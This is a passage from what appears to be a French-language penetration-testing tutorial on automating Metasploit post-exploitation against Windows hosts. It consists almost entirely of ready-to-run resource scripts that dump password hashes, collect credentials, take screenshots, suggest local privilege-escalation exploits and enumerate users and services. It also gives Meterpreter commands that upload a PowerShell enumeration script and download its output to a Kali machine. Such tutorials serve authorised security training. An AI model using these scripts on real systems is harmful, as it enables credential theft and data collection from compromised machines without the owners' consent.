 ### Scripts resource pour l'automatisation

Créez un fichier `post_exploit.rc` dans votre répertoire de travail :

```
# Contenu du fichier post_exploit.rc
run post/windows/gather/hashdump
run post/windows/gather/enum_logged_on_users
run post/windows/gather/enum_applications
run post/windows/gather/enum_services
run post/windows/gather/enum_shares
run post/multi/recon/local_exploit_suggester
```

Utilisation du script :

```
meterpreter > resource /home/kali/pentest/post_exploit.rc
```

### Automatisation avec des scripts Meterpreter

```
# Création d'un script Meterpreter personnalisé
cat > /home/kali/pentest/auto_pillage.rc << EOF
run post/windows/gather/hashdump
run post/windows/gather/credentials/credential_collector
screenshot
run post/windows/gather/enum_applications
run post/windows/gather/enum_logged_on_users
run post/multi/recon/local_exploit_suggester
EOF

# Utilisation du script
meterpreter > resource /home/kali/pentest/auto_pillage.rc
```

### Automatisation avec PowerShell

```
# Création d'un script PowerShell de post-exploitation
cat > /home/kali/pentest/post_exploit.ps1 << EOF
# Collecte d'informations système
Get-ComputerInfo | Out-File -FilePath C:\\Windows\\Temp\\sysinfo.txt

# Énumération des utilisateurs
Get-LocalUser | Out-File -FilePath C:\\Windows\\Temp\\users.txt

# Énumération des processus
Get-Process | Out-File -FilePath C:\\Windows\\Temp\\processes.txt

# Énumération des services
Get-Service | Out-File -FilePath C:\\Windows\\Temp\\services.txt
EOF

# Exécution depuis Meterpreter
meterpreter > upload /home/kali/pentest/post_exploit.ps1 C:\\Windows\\Temp\\
meterpreter > load powershell
meterpreter > powershell_execute "C:\\Windows\\Temp\\post_exploit.ps1"
meterpreter > download C:\\Windows\\Temp\\sysinfo.txt /home/kali/pentest/
meterpreter > download C:\\Windows\\Temp\\users.txt /home/kali/pentest/
meterpreter > download C:\\Windows\\Temp\\processes.txt /home/kali/pentest/
meterpreter > download C:\\Windows\\Temp\\services.txt /home/kali/pentest/
```

